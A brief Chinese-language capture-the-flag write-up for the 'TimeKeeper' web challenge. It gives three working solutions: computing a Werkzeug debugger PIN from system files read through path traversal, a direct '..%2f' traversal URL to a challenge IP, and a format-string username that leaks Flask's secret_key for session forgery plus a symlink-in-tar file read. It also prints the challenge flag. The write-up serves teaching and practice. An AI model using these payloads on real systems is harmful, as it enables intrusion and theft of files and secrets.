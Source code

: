# TimeKeeper

> 3种解法

## 思路分析

> 常规的,扫目录,发现存在console路径,访问发现需要PIN码,百度下,知道了CTF中Werkzeug Debugger常见解法.看官方WP,发现还存在其他解法.

### Werkzeug Debugger PIN

> 首先注册一个账号,登陆,把所有操作进行一遍.接下来就是要构造畸形参数出来报错页面,在购买请求中,在price和id后面分别加一个',发现得到了报错页面.接下来是要找一个任意文件读取的漏洞,在网站本身请求中找不到,只能去找静态资源了,发现/asserts/..%2f..%2f..%2f..%2f可跨目录读取文件.接下来要找下面的信息:

```
md5_list = [ 
    'root', #当前用户，可通过读取/etc/passwd获取 
    'flask.app', #一般情况为固定值 
    'Flask', #一般情况为固定值 
    '/usr/local/lib/python2.7/dist-packages/flask/app.pyc', #可通过debug错误页面获取    
    '2485377892354', #mac地址的十进制，通过读取/sys/class/net/eth0/address获取mac地址 如果不是映射端口 可以通过arp ip命令获取 
    '0c5b39a3-bba2-472c-a43d-8e013b2874e8' #机器名，通过读取/proc/sys/kernel/random/boot_id 或/etc/machine-id获取 
    ]
```

> 运行flag.py得到pin码,执行命令cat /flag得到flag

### 目录跨越

> 访问http://61.147.171.105:51323/asserts/..%2f..%2f..%2f..%2fflag.txt得到flag

### 格式化字符串+SESSION伪造+软连接读文件

> 注册一个名为{user.\__class__.\__mro__[3].\__init__.\__globals__[current_app].config}的用户名,登陆后访问个人中心，拿到secret_key,利用获取的secret_key签名session，获取admin权限.获取admin权限后可以添加商品,商品图片可以是打包的tar包,从而利用软连接读文件.上传后读取flag

```
ln -s /flag 1.png tar cvfp ./flag.tar 1.png
```


## payload

> http://61.147.171.105:51323/asserts/..%2f..%2f..%2f..%2fflag.txt

## flag

> cyberpeace{a7b844d21701c675776f80f0f22c2ba5}

## 参考

> https://blog.csdn.net/weixin_44604541/article/details/109147735